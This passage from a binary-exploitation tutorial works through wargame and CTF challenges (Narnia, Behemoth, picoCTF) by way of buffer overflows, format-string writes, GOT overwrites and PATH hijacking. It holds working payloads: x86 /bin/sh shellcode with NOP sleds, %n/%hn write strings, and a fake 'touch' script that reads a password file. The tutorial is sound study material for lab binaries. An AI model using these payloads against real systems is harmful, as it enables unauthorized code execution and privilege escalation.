    0xffffd7e4: 0x0000000f  0xffffd80b  0x00000000  0x00000000
    0xffffd7f4: 0x00000000  0xde000000  0x1a2a5992  0xf11444ea
    0xffffd804: 0x11433cf3  0x694a71a2  0x00363836  0x672f0000
    0xffffd814: 0x73656d61  0x72616e2f  0x2f61696e  0x6e72616e
    0xffffd824: 0x00386169  0x41414141  0x41414141  0x41414141
    0xffffd834: 0x41414141  0x41414141  0xffffd828  0x41414141
    0xffffd844: 0x41414141  0x41414141  0x42424242  0x47445800
    0xffffd854: 0x5345535f  0x4e4f4953  0x3d44495f  0x35343239
    0xffffd864: 0x45485300  0x2f3d4c4c  0x2f6e6962  0x68736162
    0xffffd874: 0x52455400  0x74783d4d  0x006d7265  0x5f485353
    0xffffd884: 0x45494c43  0x353d544e  0x34392e39  0x2e31362e
    0xffffd894: 0x20343731  0x37373835  0x32322032  0x48535300
    0xffffd8a4: 0x5954545f  0x65642f3d  0x74702f76  0x31312f73
    0xffffd8b4: 0x5f434c00  0x3d4c4c41  0x47450043  0x90903d47
    0xffffd8c4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8d4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8e4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd8f4: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd904: 0x90909090  0x90909090  0x90909090  0x90909090
    0xffffd914: 0x90909090  0x90909090  0x99580b6a  0x2f2f6852
    0xffffd924: 0x2f686873  0x896e6962  0xcdc931e3  0x53550080
    0xffffd934: 0x6e3d5245  0x696e7261  0x4c003861  0x4f435f53
    0xffffd944: 0x53524f4c  0x3d73723d  0x69643a30  0x3b31303d

 Let's redirect our program to 0xffffd8d4 to get the shell

 ::

    (gdb) run `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "A"*12 + "\xd4\xd8\xff\xff"'`
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /games/narnia/narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "A"*12 + "\xd4\xd8\xff\xff"'`

    Breakpoint 1, 0x080484a7 in func ()
    (gdb) c
    Continuing.
    AAAAAAAAAAAAAAAAAAAA(���AAAAAAAAAAAA����(���
    process 19900 is executing new program: /bin/dash
    Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    Error in re-setting breakpoint 1: No symbol "func" in current context.
    $ 

 Trying this without gdb didn't work because the address of character array changes

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` 
    AAAAAAAAAAAAAAAAAAAA(A��
    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x28\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` | hexdump
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 4128 ffff 0a02               
    000001a

 Changing 28 to 0a just by chance gave me the correct address to be pointed at

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x0a\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'` | hexdump
    0000000 4141 4141 4141 4141 4141 4141 4141 4141
    0000010 4141 4141 d837 ffff 0a03               

 ::

    narnia8@melinda:/narnia$ ./narnia8 `python -c 'print "A"*20 + "\x37\xd8\xff\xff" + "B"*12 + "\xd4\xd8\xff\xff"'`          
    AAAAAAAAAAAAAAAAAAAA7���BBBBBBBBBBBB����7���
    $ 

 For example, below you need the address of secret to write the new value 0x1337beef.

 .. code:: c

    unsigned secret = 0xdeadbeef;

    int main(int argc, char **argv){
        unsigned *ptr;
        unsigned value;
        char key[33];
        FILE *f;
        printf("Welcome! I will grant you one arbitrary write!\n");
        printf("Where do you want to write to? ");
        scanf("%p", &ptr);
        printf("Okay! What do you want to write there? ");
        scanf("%p", (void **)&value);
        printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
        *ptr = value;
        printf("Value written!\n");
        if (secret == 0x1337beef){
            printf("Woah! You changed my secret!\n");
            printf("I guess this means you get a flag now...\n");

            f = fopen("flag.txt", "r");
            fgets(key, 32, f);
            fclose(f);
            puts(key);
            exit(0);
        }
        printf("My secret is still safe! Sorry.\n");
    }


* In another challenge below, It can be easily seen the value of secret can be changed after entering 16 characters + 0xc0deface. As, 0xc0deface can't be printed as ASCII characters, you can use python to pass the input.

 ::

    python -c ' print "A" * 16 + "\xc0\xde\xfa\xce"' or python -c ' print "A" * 16 + "\xce\xfa\xde\xc0"' based on the endianess of the system.

 .. code:: C 

   void give_shell(){ 
        gid\_t gid = getegid(); 
        setresgid(gid, gid,gid); 
        system("/bin/sh -i"); }

   void vuln(char \*input){ 
        char buf[16]; 
        int secret = 0; 
        strcpy(buf,input);

    if (secret == 0xc0deface){
        give_shell();
    }else{
        printf("The secret is %x\n", secret);
    }

   }

   int main(int argc, char \*\*argv)
   { if (argc > 1) 
        vuln(argv[1]); 
        return 0; }


* Controlling the EIP: In the below challenge, an attacker can use a buffer overflow to take control of the program's execution. the return address for the call to vuln function is above buf on the stack, so it can be overwritten with an overflow. this allows an attacker to put nearly any address they desire in place of the return address. in this example, the goal is to call the give\_shell function.

 * We need to find the address of give\_shell function which can be done either by using gdb and print give\_shell or objdump -d outputfile \| grep give\_shell.
 * To know the EIP offset, you can use cyclic patterns. Use pattern\_create.rb and pattern\_offset.rb So pattern\_create.rb 100 for instance will create a 100 byte cyclic pattern. 
 * Then you feed this as your input to the vulnerable program and it will crash. so get the value of EIP at that point.
 * Then, we just need to pass the input to the program by 
 
  ::

    ./a.out $(python -c ' print "A" \* Offset + "Address of give\_shell in hex"' )

  ::
  
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    /* This never gets called! */
    void give_shell(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
         system("/bin/sh -i");
    }

    void vuln(char *input){
         char buf[16];
         strcpy(buf, input);
    }

    int main(int argc, char **argv){
         if (argc > 1)
            vuln(argv[1]);
            return 0;
    }


* Execute Me: If you check the below code, getegid() function shall return the effective group ID of the calling process., setresuid() sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process. If you see, read function read the stdin into the buffer and (function\_ptf) buf() function is called which would call anything in the buffer.

 * Since, buf will execute anything, we need a shell code to fit in 128 bytes, There are plenty of shellcode (with different platforms and different working)which can be found on Shell-Storm.
 * Then, we just need to pass the input to the program by
   ::
     
     ./a.out $(python -c ' print "A" \* Offset + "Address of give\_shell in hex"' )
   
   ::

     #include <stdio.h>
     #include <stdlib.h>

     int token = 0;

     typedef void (*function_ptr)();

     void be_nice_to_people(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
     }

     int main(int argc, char **argv){
              char buf[128];

              be_nice_to_people();
              read(0, buf, 128);
              ((function_ptr)buf)();
      }


* ROP1: This binary is running on a machine with ASLR! (Address space layout randomization (ASLR) is a computer security technique involved in protection from buffer overflow attacks.) Can you bypass it?

 * From the code provided we can see that there’s a buffer overflow in the vuln() function due to the strcpy() call. run the program within gdb and see what the state of the registers and the stack are at the time of the crash.
 * From the cylic patterns tools, we could find that offset is at 76 which could be confirmed by providing a input of 76 “A”s and 4 “B”s to overwrite EIP. set a breakpoint after the call to strcpy(); that is \*vuln+24. After the leave instruction is executed, EIP will be set to 0x424242.

 * EAX points to our buffer of “A”s and since the binary doesn’t have the NX bit, we can execute shellcode on the stack. To bypass ASLR, we just need to find an address that will do a JMP/CALL EAX and set that as our return address. msfelfscan can find a list of instructions to accomplish this:

 * Since the binary is compiled for 32 bit, searching the shellcode in Shellstorm for Linux\_x86 executing /bin/sh, we get 21 bytes shellcode in kernelpanic.

 * As EAX contains the 76\*A + BBBB when the vuln function returns, we just need to find address which will execute JMP EAX, it can be found by msfelfscan -j eax binary\_file

 * One more small but important observation is the number of NOPs, as our shellcode is 21 bytes and offset is 76 bytes and jmp is 4 bytes. So, 76 - 21 - 4 = 51.

  .. code:: python

    import struct
    code = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
    jmpeax = struct.pack("<I",0x080483e7)
    print "\x90"*51 + code + jmpeax


  .. code:: C

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
 
    void be_nice_to_people(){
         gid_t gid = getegid();
         setresgid(gid, gid, gid);
     }

    void vuln(char *name){
         char buf[64];
         strcpy(buf, name);
    }

    int main(int argc, char **argv){
        be_nice_to_people();
        if(argc > 1)
           vuln(argv[1]);
           return 0;
    }



Format String Examples
======================

Let's see a simple example of a format string vulnerabilty. 

* Narnia5

 ::  
 
   include <stdio.h>
   include <stdlib.h>
   include <string.h>

   int main(int argc, char \*\*argv){ 
        int i = 1; char buffer[64];
        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
          printf("GOOD\n");
          system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
   }
   
 Let's try to see what's on stack and if we can put something on stack and change the value of i.

 ::

  narnia5@melinda:~$ /narnia/narnia5
  %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x Change i's value from 1 -> 500.
  No way...let me give you a hint! buffer :
  [f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.62653766.36656436.6666662e.] (63) i
  = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x Change i's value from 1 ->
        500. No way...let me give you a hint! buffer :
        [AAAAf7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.41414141.62653766.36656] (63) i
        = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. No way...let me give you a hint! buffer
        : [����f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8.ffffd6cc.62653766.36656] (63)
        i = 1 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%08x.%08n.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. No way...let me give you a hint! buffer
        : [����f7eb6de6.ffffffff.ffffd6ae.f7e2ebf8..62653766.36656436.6666] (63)
        i = 40 (0xffffd6cc)

        narnia5@melinda:~$ /narnia/narnia5
        ``python -c 'print "\xcc\xd6\xff\xff%08x.%08x.%08x.%468x.%08n.%08x.%08x.%08x"'``
        Change i's value from 1 -> 500. GOOD $ 


* In this example, let's see use of arbitary writing an address Narnia7

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <stdlib.h>
    #include <unistd.h>

    int goodfunction();
    int hackedfunction();

    int vuln(const char *format){
            char buffer[128];
            int (*ptrf)();

            memset(buffer, 0, sizeof(buffer));
            printf("goodfunction() = %p\n", goodfunction);
            printf("hackedfunction() = %p\n\n", hackedfunction);

            ptrf = goodfunction;
            printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

            printf("I guess you want to come to the hackedfunction...\n");
            sleep(2);
            ptrf = goodfunction;
      
            snprintf(buffer, sizeof buffer, format);

            return ptrf();
    }

    int main(int argc, char **argv){
            if (argc <= 1){
                    fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                    exit(-1);
            }
            exit(vuln(argv[1]));
    }

    int goodfunction(){
            printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
            fflush(stdout);
            
            return 0;
    }

    int hackedfunction(){
            printf("Way to go!!!!");
        fflush(stdout);
            system("/bin/sh");

            return 0;
    }

 If we see, the program provides us with the address of the ptrf pointer, goodfunction and bad function. The ptrf is assigned the address of goodfunction if we somehow change it to address of the badfunction, we can get a shell. Let's run the program and see what are the address we get.

 ::

    ./narnia71 A
    goodfunction() = 0x804871f
    hackedfunction() = 0x8048745

    before : ptrf() = 0x804871f (0xffb4450c)
    I guess you want to come to the hackedfunction...
    Welcome to the goodfunction, but i said the Hackedfunction..

 and

 ::

    narnia7@melinda:/narnia$ ./narnia7 A
    goodfunction() = 0x80486e0
    hackedfunction() = 0x8048706

    before : ptrf() = 0x80486e0 (0xffffd64c)
    I guess you want to come to the hackedfunction...
    Welcome to the goodfunction, but i said the Hackedfunction..

 The reason I have added two running instances is because in the first instance the address is different by one byte 0x1f and 0x45 where as in the second instance the address differs by two bytes 0x86e0 and 0x8706. We can write two bytes by %hn and one byte by %hhn. We can write whole 4 byte address by following a formula

 ::

    If HOB < LOB

    HOB:0x0804
    LOB:0x8706

    [addr+2][addr] = \x4e\xd6\xff\xff\x4c\xd6\xff\xff
    %.[HOB - 8]x   = 0x804 - 8 = 7FC (2044) = %.2044x
    %[offset]$hn   = %6\$hn
    %.[LOB - HOB]x = 0x8706 - 0x804 = 7F02 (32514) = %.32514x
    %[offset+1]$hn = %7\$hn

    `python -c 'print "\x4e\xd6\xff\xff\x4c\xd6\xff\xff" +"%.2044x%6\$hn %.32514x%7\$hn"'`

 We also need to find the offset where the address is stored which can be done by two methods: Either compiling the program on local machine and checking the buffer just after snprintf

 ::

    gdb-peda$ p buffer 
    $2 = "AAAA.000008a2.f7fdeb58.f7fde860.0804835c.0804871f.41414141.3030302e.61383030", '\000' <repeats 51 times>

 or by using ltrace

 ::

    narnia7@melinda:/narnia$ ltrace ./narnia7 `python -c 'print "AAAA" + ".%08x"*7'`
    __libc_start_main(0x804868f, 2, 0xffffd764, 0x8048740 <unfinished ...>
    memset(0xffffd620, '\0', 128)                                                                                          = 0xffffd620
    printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
    )                                                                             = 27

    )                                                                         = 30
    printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd61cbefore : ptrf() = 0x80486e0 (0xffffd61c)
    )                                                           = 41
    puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
    printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706
    )                                                                            = 50
    sleep(2)                                                                                                               = 0
    snprintf("AAAA.08048238.ffffd678.f7ffda94."..., 128, "AAAA.%08x.%08x.%08x.%08x.%08x.%0"..., 0x8048238, 0xffffd678, 0xf7ffda94, 0, 0x80486e0, 0x41414141, 0x3038302e) = 67
    puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
    )                                                                            = 61
    fflush(0xf7fcaac0)                                                                                                     = 0
    exit(0 <no return ...>
    +++ exited (status 0) +++

 If you see 0x41414141 is at offset 6.

 ::

    gdb-peda$ p ptrf
    $3 = (int (*)()) 0x804871f <goodfunction>
    gdb-peda$ p &ptrf
    $4 = (int (**)()) 0xffffd2ec
    gdb-peda$ x /10xb 0xfffd3ea
    0xfffd3ea:  Cannot access memory at address 0xfffd3ea
    gdb-peda$ x /10xb 0xffffd3ea
    0xffffd3ea: 0x3f    0x77    0x00    0x00    0x00    0x00    0x00    0x00
    0xffffd3f2: 0x00    0x00
    gdb-peda$ x /10xb 0xffffd2ea
    0xffffd2ea: 0x04    0x08    0x1f    0x87    0x04    0x08    0x41    0x41
    0xffffd2f2: 0x41    0x41
    gdb-peda$ p goodfunction 
    $5 = {int ()} 0x804871f <goodfunction>
    gdb-peda$ p ha
    hackedfunction  hasmntopt       
    gdb-peda$ p hackedfunction 
    $6 = {int ()} 0x8048745 <hackedfunction>

 ::

    gdb-peda$ p &ptrf 
    $10 = (int (**)()) 0xffffd2fc
    gdb-peda$ run `python -c 'print "\xfc\xd2\xff\xff" + ".%08x"*5 + "%hhn"'`
    gdb-peda$ p ptrf 
    $12 = (int (*)()) 0x8048731 <goodfunction+18>
    gdb-peda$ x /10xb 0xffffd2fa
    0xffffd2fa: 0x04    0x08    0x31    0x87    0x04    0x08    0xfc    0xd2
    0xffffd302: 0xff    0xff


* Let's see another example Behemoth3 where we have only the assembly code of the program and we exploit this by two methods by overwriting the GOT address or overwriting the return address.

 Assembly Source Code:

 ::

    (gdb) disassemble main 
    Dump of assembler code for function main:
       0x0804847d <+0>: push   %ebp
       0x0804847e <+1>: mov    %esp,%ebp
       0x08048480 <+3>: and    $0xfffffff0,%esp
       0x08048483 <+6>: sub    $0xe0,%esp
       0x08048489 <+12>:    movl   $0x8048570,(%esp)
       0x08048490 <+19>:    call   0x8048330 <printf@plt>
       0x08048495 <+24>:    mov    0x80497a4,%eax
       0x0804849a <+29>:    mov    %eax,0x8(%esp)
       0x0804849e <+33>:    movl   $0xc8,0x4(%esp)
       0x080484a6 <+41>:    lea    0x18(%esp),%eax
       0x080484aa <+45>:    mov    %eax,(%esp)
       0x080484ad <+48>:    call   0x8048340 <fgets@plt>
       0x080484b2 <+53>:    movl   $0x8048584,(%esp)
       0x080484b9 <+60>:    call   0x8048330 <printf@plt>
       0x080484be <+65>:    lea    0x18(%esp),%eax
       0x080484c2 <+69>:    mov    %eax,(%esp)
       0x080484c5 <+72>:    call   0x8048330 <printf@plt>
       0x080484ca <+77>:    movl   $0x804858e,(%esp)
       0x080484d1 <+84>:    call   0x8048350 <puts@plt>
       0x080484d6 <+89>:    mov    $0x0,%eax
       0x080484db <+94>:    leave  
       0x080484dc <+95>:    ret    
    End of assembler dump.

 Observed Behavior:

 ::

    behemoth3@melinda:/tmp/rahul3$ ./behemoth3 
    Identify yourself: HelloCheck123
    Welcome, HelloCheck123

    aaaand goodbye again.

 Well, we tried to provide a very large input to the Identify yourself, but it didn't not gave a segmentation fault. Let's try format string:

 ::

    behemoth3@melinda:/tmp/rahul3$ echo `python -c 'print "A"*4 + ".%08x"*7'` | ./behemoth3 
    Identify yourself: Welcome, AAAA.000000c8.f7fcac20.00000000.00000000.f7ffd000.41414141.3830252e

    aaaand goodbye again.

 Trying simple format string provided us with the offset of our format string. Now we can write almost any address with any value with our input. Before that let's put a environment variable shellcode and check it's address:

 ::

    export EGG=`python -c 'print "\x90"*90 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

 Let's core dump the binary using %s and examine the core. Our shellcode can be reached at 0xffffd8f0

 * Either we can overwrite the return address (main+95): Let's debug the program set the breakpoint at main+95 and see the value of $esp which would be use to find the return address when binary is executed without gdb. The valueis 0xf7e3ba63 and the return address which needed to be overwrriten is 0xffffd65c. Let's again core dump the binary to see the return address without gdb.

  ::

    (gdb) find $esp,+2000,0xf7e3ba63
    0xffffd66c
    1 pattern found.

  So, if we overwrite the return address at 0xffffd66c with our shellcode value of 0xffffd8f0, we should get a shell. 

  ::

     python -c 'print "\x5e\xd6\xff\xff\x5c\xd6\xff\xff" +"%.65527x%6$hn %.55503x%7$hn"' > input98

  This is little tricky because we might have to guess the return address without gdb. Previously it was coming 0xffffd66c but we got shell using 0xffffd65c.

 * overwrite the puts GOT address: Find the GOT address of puts which is 0x08049790 and overwrite it with

  ::

   python -c 'print "\x92\x97\x04\x08\x90\x97\x04\x08" +"%.65527x%6$hn %.55503x%7$hn"'


* In the below code, if we can somehow set the value of secret to 1337, we can get a shell on the system to read the flag. Also, the printf function directly prints the argument whatever is passed by the user. By concepts above, we need to find the address of secret and write to it. Address of the secret can be found by gdb or objdump. Either the address would be already present on stack or it can be put on stack.

 .. code:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <fcntl.h>

    int secret = 0;

    void give_shell(){
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
        system("/bin/sh -i");
    }

    int main(int argc, char **argv){
        int *ptr = &secret;
        printf(argv[1]);

        if (secret == 1337){
            give_shell();
        }
        return 0;
    }

 Reading the address

 ::

    pico83515@shell:/home/format$ gdb -q format
    Reading symbols from format...(no debugging symbols found)...done.
    (gdb) p $secret
    $1 = void
    (gdb) p &secret
    $2 = (<data variable, no debug info> *) 0x804a030 <secret>

 Now we have to find whether is this address present on the stack? If not, we can put this address on the stack because of the format string vulnerability.

 ::

    pico83515@shell:/home/format$ ./format %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
    ffffd774.ffffd780.f7e4f39d.f7fc83c4.f7ffd000.0804852b.0804a030.08048520.00000000

 We see that the address is present on the stack at the seventh position. Otherwise, we can put it on the stack by

 ::

    for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x;echo ;done | grep 4141

 What this is doing is "Extracting particular stack content by "%$i$x". As we have seen in DMA, $x can be used to extract particular stack content and reading it. $i value changes from 1-256. However, as you add more data, the offset of your original input changes, so go ahead and add 1333 more bytes of data and see what the offset is then. (1337 is what we want to put into secret, and we will have written four bytes (AAAA), so 1333+4 = 1337)

 ::

    or i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333u;echo ;done | grep 4141
    Offset: 103:AAAA41410074
    Offset: 104:AAAA31254141

 So we found our A’s again, but they aren’t aligned on the stack. Lets add two more A’s at the end to see if we can get it to line up.

 ::

    for i in {1..256};do echo -n "Offset: $i:"; env -i ./format AAAA%$i\$x%1333uAA;echo ;done | grep 41414141
    Offset: 103:AAAA41414141

 It looks like the address 0x0804a030 is getting placed in \*ptr. That’s the address we need to use in place of our A’s. In order to place the number 1337 into secret’s memory address, we need to use the %n modifier. (%103$n will look at the data located at offset 103 as a memory address, and write the total number of bytes we have written so far into that address.) 
 ::

   pico1139@shell:/home/format$: env -i ./format $:`(python -c 'print "\x30\xa0\x04\x08"+"%1333u%103`\ nAA"') 
   $ id
   uid=11066(pico1139) gid=1008(format) groups=1017(picogroup) $ ls
   Makefile flag.txt format format.c $ cat flag.txt
   who\_thought\_%n\_was\_a\_good\_idea?

 Otherwise as the address at the seventh is already present on stack we can also do
 ::

  plain pico83515@shell:/home/format$ ./format "%1337u%7$n"

 We used DMA to access the memory, so written 1337 directly at the address pointed by the 7th position. Otherwise, we can use the basic
 
 ::

  ./format %08x.%08x.%08x.%08x.%08x.%1292u%n 
  
 If you see, we did 5 stack pop-up by using %08x, written the value to be written at 6th position and 7th position contains the address of secret. If you further see "%08x." is of eight characters + 1 of "." or 9 bytes, used five times i.e 9*\ 5=45 bytes and 1292+45 == 1337.

* In another example below,

 .. code:: c

    #include <stdlib.h>
    #include <stdio.h>
    #include <unistd.h>

    #define BUFSIZE 256

    void greet(int length){
        char buf[BUFSIZE];
        puts("What is your name?");
        read(0, buf, length);
        printf("Hello, %s\n!", buf);
    }

    void be_nice_to_people(){
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
    }

    int main(int argc, char **argv){
        int length;
        be_nice_to_people();

        puts("How long is your name?");
        scanf("%d", &length);

        if(length < BUFSIZE) //don't allow buffer overflow
            greet(length);
        else
            puts("Length was too long!");
    }

 This program tries to prevent buffer overflows by first asking for the input length. It disregards the rest of the ouput. However, the program uses scanf. If we supply -1 as the length, we can bypass the overflow check: readelf -l no\_overflow can be used to find if there's any protection on the binary. Stack is executable, Furthermore, ASLR is not enabled. This makes it easy to stick in a shellcode plus a NOP sled and return to an address on the stack

 ::

    pico1139@shell:/home/no_overflow$ (echo -1; python -c 'print "A"*268+"\xd0\xd6\xff\xff"+"\x90"*200+" "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'; cat) | ./no_overflow
    How long is your name?
    What is your name?
    Hello, AAAAAAAAAAAAAAAAAAAAAA...snip...

    id
    uid=11066(pico1139) gid=1007(no_overflow) groups=1017(picogroup)
    cat flag.txt
    what_is_your_sign

* In an another example where stack is not executable, If you read the code, you would find, we need to change the file\_name from not\_the\_flag.txt to flag.txt. In this example, they provided the address of the string "not\_the\_flag.txt" as 0x08048777. By putting a break point in puts in gdb and looking for the address of flag.txt.

 ::

    (gdb) br *puts
    Breakpoint 1 at 0x8048460
    (gdb) run
    Starting program: /home/what_the_flag/what_the_flag 

    Breakpoint 1, 0xf7e81ee0 in puts () from /lib/i386-linux-gnu/libc.so.6
    (gdb) x/s 0x08048777
    0x8048777:  "not_the_flag.txt"
    (gdb) x/s 0x08048778
    0x8048778:  "ot_the_flag.txt"
    (gdb) x/s 0x08048770
    0x8048770:  "le: %s"
    (gdb) x/s 0x0804877C
    0x804877c:  "he_flag.txt"
    (gdb) x/s 0x0804877D
    0x804877d:  "e_flag.txt"
    (gdb) x/s 0x0804877E
    0x804877e:  "_flag.txt"
    (gdb) x/s 0x0804877F
    0x804877f:  "flag.txt"

 .. code:: c

    #include <stdlib.h>
    #include <stdio.h>

    struct message_data{
        char message[128];
        char password[16];
        char *file_name;
    };

    void read_file(char *buf, char *file_path, size_t len){
        FILE *file;
        if(file= fopen(file_path, "r")){
            fgets(buf, len, file);
            fclose(file);
        }else{
            sprintf(buf, "Cannot read file: %s", file_path);
        }
    }

    int main(int argc, char **argv){
        struct message_data data;
        data.file_name = "not_the_flag.txt";

        puts("Enter your password too see the message:");
        gets(data.password);

        if(!strcmp(data.password, "1337_P455W0RD")){
            read_file(data.message, data.file_name, sizeof(data.message));
            puts(data.message);
        }else{
            puts("Incorrect password!");
        }

        return 0;
    }

 So we’ll ovewrite the file pointer with 0x804877f to make it read flag.txt. From gets()’s manual: gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte (‘\\0’). No check for buffer overrun is performed (see BUGS below). So by using the following input, we can overwrite the file pointer and still provide the correct password:

 ::

    1337_P455W0RD
    1337_P455W0RD\0aa\x7f\x87\x04\x08
    aa\x7f\x87\x04\x08

 We use this in the command line to get the flag

 ::

    pico83515@shell:/home/what_the_flag$ printf "1337_P455W0RD\0bb\x7f\x87\x04\x08" | ./what_the_flag
    Enter your password too see the message:
    Congratulations! Here is the flag: who_needs_%eip

    pico83515@shell:/home/what_the_flag$

Miscellanous Examples
=====================

Let's see some miscellanous examples away from Buffer/Format Vulnerabilities.

* So, we have a binary which when executed gives 

 ::

    behemoth2@melinda:/behemoth$ ./behemoth2 
    touch: cannot touch '13373': Permission denied

 Let's see what ltrace provides us

 ::

    behemoth2@melinda:/behemoth$ ltrace ./behemoth2 
    __libc_start_main(0x804856d, 1, 0xffffd794, 0x8048640 <unfinished ...>
    getpid()                                                                                                               = 14118
    sprintf("touch 14118", "touch %d", 14118)                                                                              = 11
    __lxstat(3, "14118", 0xffffd688)                                                                                       = -1
    unlink("14118")                                                                                                        = -1
    system("touch 14118"touch: cannot touch '14118': Permission denied
     <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                 = 256
    sleep(2000

 Let's see a truncated output of disassemble main, if we see getpid gets the binary pid, sprintf something in some buffer, lstat provides thefile status, unlink -call the unlink function to remove the specified file.

 ::

    (gdb) disassemble main 
    Dump of assembler code for function main:
       0x08048588 <+27>:    call   0x8048410 <getpid@plt>
       0x080485b3 <+70>:    call   0x8048450 <sprintf@plt>
       0x080485c7 <+90>:    call   0x80486c0 <lstat>
       0x080485df <+114>:   call   0x8048400 <unlink@plt>
       0x080485eb <+126>:   call   0x8048420 <system@plt>
       0x080485f7 <+138>:   call   0x80483e0 <sleep@plt>
       0x08048616 <+169>:   call   0x8048420 <system@plt>
       0x08048635 <+200>:   leave  
       0x08048636 <+201>:   ret 

 If you check the ltrace output

 ::

    system("touch 14118"touch: cannot touch '14118': Permission denied

 touch is being called without an absolute path, so we can take advantage of that. First we’ll create our own touch script that prints out the contents /etc/behemoth\_pass/behemoth3. Next, the PATH variable needs to be updated so that it looks at the current working directory first to ensure that our touch script is executed and not the actual touch program. PATH=/tmp:$PATH, you set /tmp to your primary location to search for binaries and the like... so if you create a file in /tmp/ called touch, it'll actually execute that instead of /usr/bin/touch

 ::

   behemoth2@melinda:/tmp/rahul2$ cat touch 
   cat /etc/behemoth_pass/behemoth3
   behemoth2@melinda:/tmp/rahul2$ history | grep PATH
   19  history | grep PATH
   behemoth2@melinda:/tmp/rahul2$ PATH=/tmp/rahul2:$PATH /behemoth/behemoth2 
   **********

Changelog
=========
.. git_changelog::
  :filename_filter: docs/LFC-BinaryExploitation.rst
  :hide_date: false

.. disqus::

